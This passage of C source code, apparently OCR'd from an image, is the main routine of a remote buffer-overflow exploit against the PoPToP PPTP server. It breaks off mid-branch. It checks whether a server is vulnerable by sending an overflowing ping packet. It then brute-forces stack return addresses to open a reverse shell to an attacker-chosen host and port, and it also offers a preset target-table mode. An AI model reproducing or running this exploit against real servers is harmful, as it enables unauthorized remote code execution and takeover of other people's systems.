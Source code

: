         return 0;
      }

      if (argc == 2)
      {
        if (!connect_server(argv[1])) return 1;

        printf("\nChecking if the server is vulnerable..\n");
        printf("(if it is you have to wait 65 seconds)..\n");
        send_init_request(st);

        ret = 0x01010101;

        //header length
        bytes = recv(st,(char*)&reply,2,0);
        bytes = ntohs(reply.header.length);
        bytes = recv(st,(char*)&reply+2,bytes-2,0);
        j = htons(reply.header.ctrl_type);
        send_ping_overflow(st,ret,"0.0.0.0",0);

        //header length
        bytes = recv(st,(char*)&reply,2,0);
        printf("PoPToP server is ");
        if ((bytes = recv(st,(char*)&reply,2,0)) != -1) printf("vulnerable!\n");
        else printf("not vulnerable\n");
        close(st);

        return 1;
      }
      if(argc < 5) exit(1);
      else if(strncmp(argv[4], "-b", 2) == 0) {
        if(argc == 6) timeout = atoi(argv[5]);
        printf("[!] Attempting bruteforce against %s, timeout: %d\n", argv[1], timeout);
        printf("interrupt when you get a shell to %s on port %d...\n\n",argv[2],atoi(argv[3]));

        for (ret = TOPOFSTACK; ret >=BOTTOMOFSTACK; ret -= STEP) {
          printf("[*] ");
          if (!connect_server(argv[1])) return 1;
          printf("[ret=0x%x]..",ret);
          printf("sending payload..");

          // initial packet
          send_init_request(st);

          //a real overflowing ping packet
          send_ping_overflow(st,ret,argv[2],atoi(argv[3]));
          close(st);

          usleep(timeout * 1000);
          printf("done\n");
        }
      }
      else if(strncmp(argv[4], "-t", 2) == 0) {
        if(argc == 6 && atoi(argv[5]) >= 0
         && atoi(argv[5]) < sizeof(targets)/sizeof(struct target)) {
          ret = targets[atoi(argv[5])].ret;
          printf("[!] Attacking %s using %s\n", argv[1], targets[atoi(argv[5])].desc);
